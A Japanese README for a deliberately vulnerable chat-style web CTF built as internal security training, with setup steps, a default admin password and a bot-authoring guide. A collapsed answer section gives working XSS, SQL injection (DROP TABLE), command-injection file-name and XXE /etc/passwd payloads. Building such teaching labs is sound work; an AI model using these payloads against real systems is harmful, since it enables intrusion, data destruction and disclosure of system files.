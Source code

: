 # chat-ctf (公開サーバでの利用はしないでください)
chatアプリケーション風WebCTFサイト。
内部ネットワーク内での利用を想定した、セキュリティ教材です。

## 依存
- docker-compose
- mkcert
- sqlite3

## 起動手順

```sh
$ git clone https://github.com/TakuKitamura/chat-ctf.git
$ cd chat-ctf
$ sudo docker compose up -d
$ vim src/.env.development # 適切なものを設定。
$ # IPは、サーバのIPアドレス
SECRET_COOKIE_PASSWORD=xxx # 30文字以上に設定してください
IP=192.168.1.x
$ vim src/.env.production # 適切なものを設定
SECRET_COOKIE_PASSWORD=xxx # 30文字以上に設定してください
IP=192.168.1.x
$ cd src
$ ./setup-db.sh # Admin/Adm1nAdm1n というテストアカウントも追加されます。
$ mkcert 192.168.1.x
$ cd ..
$ sudo docker compose exec app yarn install
$ sudo docker compose exec app yarn build && sudo docker compose exec app yarn start
$ # or
$ sudo docker compose exec app yarn dev
```
https://192.168.1.x/login でログインできます。

https://192.168.1.x/signup でアカウントを作成できます。

CSVファイルからのアカウント一括作成も可能です。

```sh
$ vim /tmp/user.csv # 一例
UserID,Password,IconURL
Test1,Maixuo7p,https://example.com/1.jpg
Test2,eoch2ieP,https://example.com/2.jpg
$ cd chat-ctf/src
$ ./add-users.sh -f /tmp/user.csv -i 192.168.1.x
```

### Adminアカウント専用機能
- Adminアカウント(`Admin/Adm1nAdm1n`)でログインし、適当なテキストボックスで`/reset-chat`と入力するとchatデータがDBから削除される。画面更新をすると、chat履歴が消えていることを確認できる。

<details>

<summary>問題の回答</summary>

### Echo Bot [XSS]

ブラウザのDeveloper ToolでUser Agentを下記のように変更。
```
"><img src=x onerror="alert()"><!--
```

そして、適当なメッセージを入力し送信する。

### アーティスト検索 Bot [SQL Injection]

下記のメッセージを入力し送信する。
```
search=santana
n='; DROP TABLE user; --
```

### グレースケール変換 Bot [OS Command Injection]

アップロードする画像のファイル名を例えば以下に変え、アップロードする。
```
example`sleep 3`.jpg
```

### FizzBuzz Bot [XSS]

https://192.168.1.x?q=%3Cimg%20src=%22x%22%20onerror=%22alert()%22%3E

というようなURLにアクセスした上で、下記メッセージを入力し送信する。
```
n=200
```

### Excel解析 Bot [XXE]

適当なGoogleスプレッドシートを作成し、Microsoft Excel形式でダウンロード。ファイル名をexample.xlsxとする。
以下のように細工したファイルを作成する。

```sh
$ mkdir tmp
$ mv example.xlsx tmp
$ cd tmp
$ unzip example.xlsx
$ ls
[Content_Types].xml  _rels  example.xlsx  xl
$ cat xl/sharedStrings.xml # 出力結果は例
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<sst xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main" count="8" uniqueCount="4"><si><t>AAA</t></si><si><t>BBB</t></si><si><t>CCC</t></si><si><t>DDD</t></si></sst>
$ vim xl/sharedStrings.xml # 例
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE test [ 
    <!ENTITY xxe SYSTEM "file:///etc/passwd"> 
]>
<sst xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main" count="8" uniqueCount="4"><si><t>&xxe;</t></si><si><t>BBB</t></si><si><t>CCC</t></si><si><t>DDD</t></si></sst>
$ zip -r crafted.xlsx '[Content_Types].xml' _rels xl
  adding: [Content_Types].xml (deflated 71%)
  adding: _rels/ (stored 0%)
  adding: _rels/.rels (deflated 40%)
  adding: xl/ (stored 0%)
  adding: xl/workbook.xml (deflated 58%)
  adding: xl/worksheets/ (stored 0%)
  adding: xl/worksheets/sheet1.xml (deflated 64%)
  adding: xl/worksheets/_rels/ (stored 0%)
  adding: xl/worksheets/_rels/sheet1.xml.rels (deflated 40%)
  adding: xl/drawings/ (stored 0%)
  adding: xl/drawings/drawing1.xml (deflated 66%)
  adding: xl/styles.xml (deflated 61%)
  adding: xl/theme/ (stored 0%)
  adding: xl/theme/theme1.xml (deflated 78%)
  adding: xl/_rels/ (stored 0%)
  adding: xl/_rels/workbook.xml.rels (deflated 66%)
  adding: xl/sharedStrings.xml (deflated 26%)
```

そして、crafted.xlsxをアップロードする。

</details>

---

# Bot問題追加ガイド

チャット形式CTFの各問題を `src/lib/bots/bot<number>.ts` の形式で実装しています。  
新しい問題を追加する際は、以下のルールに従ってください。

## 1. ファイル命名規則

- ファイル名は `bot1.ts`, `bot2.ts`, `bot3.ts` のように連番で命名します。
- 重複しない番号を使用してください。
- ファイル内のロジックで、問題に正解した場合は `gotFlag: true` を返すようにしてください。

## 2. Bot関数の構成

すべての Bot ファイルは、以下のように `default export` される `async` 関数を定義します。

```ts
import { BotHandlerArgs } from './types';
const escape = require('escape-html');

export default async function ({
  req,
  message,
  file
}: BotHandlerArgs) {
  return {
    gotFlag: false,
    html: escape("出力メッセージ")
  };
}
```

戻り値の構造：

```ts
{
  gotFlag: boolean, // 正解時 true、不正解時 false
  html: string      // 表示するHTML文字列（ユーザ由来の入力は、escape必須）
}
```

## 3. 入力とユーティリティ関数

### BotHandlerArgs

すべての Bot は以下の引数を受け取ります：

- `req: NextApiRequest` - HTTPリクエストオブジェクト
  - https://www.jsdocs.io/package/next#NextApiRequest
- `message: string` - ユーザが送信したメッセージ
- `file: File` - ファイル情報（ファイルがアップロードされていなければ、undefined）
  - https://www.jsdocs.io/package/@types/formidable#File

### validCheckEnv の使い方

クエリ形式の `message` をパース・バリデーションする際には、共通ユーティリティ `validCheckEnv()` を使ってください。

```ts
import { validCheckEnv } from 'lib/ctf';

const result = validCheckEnv(message, ['key1', 'key2']);

if (!result.valid) {
  return {
    gotFlag: false,
    html: '<h3>Invalid Format</h3>'
  };
}

const key1 = result.params.key1;
const key2 = result.params.key2;
```

この関数は以下の形式のメッセージをパースします：

```
key1=value1&key2=value2
```

指定されたキーがすべて存在するかをチェックし、不正な形式であれば `valid: false` を返します。

## 4. Ctfテーブルへの登録

Bot を追加したら、対応するエントリを `Ctf` テーブルに追加してください。

### 対象ファイル

- `src/migrations/003-ctf.sql` を編集します。

### レコード追加形式

```sql
INSERT INTO Ctf (id, title, template, attachmentButton)
VALUES (<bot番号>, '<問題タイトル>', '<初期入力テンプレート>', <true|false>);
```

- `id`: `bot<number>.ts` の `<number>` と一致させること。
- `title`: チャットUIに表示される問題名。
- `template`: 入力フォームに事前表示される文字列（HTML可）。
- `attachmentButton`: ファイルアップロード用ボタンを表示するかどうか（`true` または `false`）。

### 反映方法

編集後は必ず、以下のスクリプトを実行してDBを再セットアップしてください：

```bash
$ cd src
$ ./setup-db.sh
```

これにより、CTF UI に新しい Bot が表示されます。
